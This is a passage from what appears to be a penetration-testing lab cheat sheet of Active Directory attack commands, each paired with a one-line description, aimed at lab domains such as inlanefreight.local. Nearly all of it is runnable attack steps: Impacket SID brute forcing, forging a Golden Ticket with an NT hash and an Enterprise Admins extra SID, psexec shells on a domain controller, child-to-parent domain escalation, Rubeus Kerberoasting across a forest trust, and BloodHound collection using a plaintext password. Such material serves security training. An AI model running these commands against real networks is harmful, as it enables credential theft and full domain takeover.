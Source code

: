 > Impacket tool used to perform a `SID Brute forcing` attack from a Linux-based host.

`lookupsid.py logistics.inlanefreight.local/lafi@172.16.5.240 | grep "Domain SID"`

> Impacket tool used to retrieve the SID of a target Windows domain from a Linux-based host.

`lookupsid.py logistics.inlanefreight.local/lafi@172.16.5.5 | grep -B12 "Enterprise Admins"`

> Impacket tool used to retrieve the `SID` of a target Windows domain and attach it to the Enterprise Admin group's `RID` from a Linux-based host.

`ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker`

> Impacket tool used to create a `Golden Ticket` from a Linux-based host.

`export KRB5CCNAME=hacker.ccache`

> Used to set the `KRB5CCNAME Environment Variable` from a Linux-based host.

`psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@lafi-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5`

> Impacket tool used to establish a shell session with a target Domain Controller from a Linux-based host.

`raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/lafi`

> Impacket tool that automatically performs an attack that escalates from child to parent domain.

**Trust Relationships — Cross-Forest**

`Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName`

> PowerView tool used to enumerate accounts for associated `SPNs` from a Windows-based host.

`Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc | select samaccountname,memberof`

> PowerView tool used to enumerate the `mssqlsvc` account from a Windows-based host.

`.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap`

> Uses `Rubeus` to perform a Kerberoasting Attack against a target Windows domain (`/domain:FREIGHTLOGISTICS.local`) from a Windows-based host.

`Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL`

> PowerView tool used to enumerate groups with users that do not belong to the domain from a Windows-based host.

`Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator`

> PowerShell cmd-let used to remotely connect to a target Windows system from a Windows-based host.

`GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley`

> Impacket tool used to request (`-request`) the TGS ticket of an account in a target Windows domain (`-target-domain`) from a Linux-based host.

`bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2`

> Runs the Python implementation of `BloodHound` against a target Windows domain from a Linux-based host.

`zip -r ilfreight_bh.zip *.json`

> Used to compress multiple files into 1 single `.zip` file to be uploaded into the BloodHound GUI.